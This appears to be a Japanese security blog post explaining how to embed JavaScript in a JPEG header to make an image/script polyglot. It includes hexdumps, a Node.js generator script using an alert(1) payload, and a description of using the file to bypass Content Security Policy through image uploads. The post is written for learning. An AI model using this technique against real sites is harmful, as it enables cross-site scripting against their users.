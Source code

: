 ```yaml
---
title: JPEG画像にJavaScriptのコードを埋め込んでみる
date: 2020-02-14
description: JPEG画像にJavaScriptのコードを埋め込んでみる
tags: ['セキュリティ']
---
```

JPEG画像にJavaScriptのコードを埋め込む手法が紹介されていたので試してみました。  
今回は次の画像に対してコードの埋め込んでみます。

![埋め込み画像](/images/posts/inject-jpeg-js/donarudo.jpg)

# 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部サイトに対して実行しないようにしてください。

# 画像のバイナリを見てみる

今回試す方法は画像のバイナリを変更してコードを埋め込んでいます。  
そこで、最初は画像のバイナリを確認してみます。

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

先頭の2バイト **FF D8** はSOIマーカーと呼ばれ、JPEGフォーマットの開始を表しています。  
次の2バイト **FF E0** はセグメントの種類を表しており、次の2バイトの **00 10** がセグメントの長さを示していて
10進数で 16 なので、**00 10** を含む16バイト分（**FF E1** の手前まで) がセグメントであるのが分かります。  
最後の **FF D9** はEOIマーカーと呼ばれ、JPEGフォーマットの終了を表しています。

今回はこのセグメント内に `alert(1)` のjsコードを埋め込んでいきます。16進数のバイナリ表現は次のように取得できます。

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

# jsコードを埋め込む

↓がバイナリを変更して、jsコードを埋め込んでみた様子です。  

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

このままjsのコードとして読み込んでも、無効な文字列を含んでおりjsの読み込みでエラーが発生します。  
jsは `/*....*/` で囲む事でコメントとしてコードを無視することが出来るので、それを利用して画像データの部分をコメントアウトして、jsとして有効なコードであるように偽装する事が可能です。

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

実際にコメントアウトの対応をしてjsコードを埋め込んだ画像のバイナリがこんな感じです。

先頭の4バイト **FF D8 FF E0** は有効な非ASCII文字のJavaScript変数になります。次の **2F 2A** がセグメントの始まりで、セグメントの部分を `/*.../*` でコメントアウトしています。 次に、`=` を差し込み変数代入とすることで、先頭の4バイトを変数として扱い有効な文字列としています。続いて `alert(1);` を実行コードとして差し込んでいます。その後、`/*...*/` で残りのJEPG画像データの部分をコメントアウトしています。

また、セグメント開始の **2F 2A** はセグメント長を表現しており、10進数で 12074 なので、セグメント長を合わせるために、12074 - 16 - 14 = 12044バイト をヌルバイト（**00**）で埋めています。

本来のセグメント部分:  
`2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01` の16バイト  

埋め込みjsコード部分:  
`*/alert(1);/*` => `2a2f3d616c6572742831293b2f2a` 14バイト

有効なjsコードの部分だけを表現すると次のようになります。

```js
<有効な非アスキー文字>=alert(1);
```

このjsコードの埋め込みは次のプログラムで実現できます。

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

# JPEG画像を読み込んでみる

jsを埋め込んだ画像を読み込んでみます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <img src="bad-donarudo.jpg"/>
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```

![JavaScriptを埋め込んだ画像](/images/posts/inject-jpeg-js/donarudo-xss.png)

正常に画像は表示されて、jsファイルとしても読み込む事ができました！  
Chromeでは対策済みでアラートが表示されず、IE11でアラートの表示が確認できました。

実現可能なブラウザは限られますが、日本国内ではまだまだIE11の利用ユーザーは多いので無視できない手法です。

# 攻撃の使われ方

これで簡単にXSSが出来るのかなと思ったのですが、<img>タグで読み込んだ場合はあくまで画像として処理されるので、コードが実行されることはありません。  
あくまで、攻撃対象のサイト上で \<script>タグで画像を読み込ませる必要があります。  

ではこの手法がどのような攻撃に利用されるかというと、**[コンテンツセキュリティポリシー（CSP）](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)のバイパス** に利用されます。  
CSPが有効になっているWebサイトでは別ドメインからのjsファイルの読み込みやインラインスクリプトの実行がブロックされます。そのため、\<script>タグを埋め込む事ができてもXSSを防ぐ事が可能になります。

しかし、Webサイトに画像アップロードが機能があった場合に、jsコードを埋め込んだ画像をアップロードして、その画像を読み込むように\<script>タグを埋め込むめば、CSPのセキュリティをくぐり抜けてxssを実現することが可能になります。

```html
<!-- Webサーバーに配置されている自分がアップロードしたjsコードを埋め込んだJPEG画像 -->
<script src="/public/images/xss.jpg"></script>
```


最近はS3などにアップロードした画像が配置されるパターンが多く、その場合は画像読み込みがCSPのポリシー対象である外部ドメインとなるので、利用できる状況はかなり限定的なのかな？と思います。

# 参考文献
* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policyについて語る](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEGファイルの構造](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
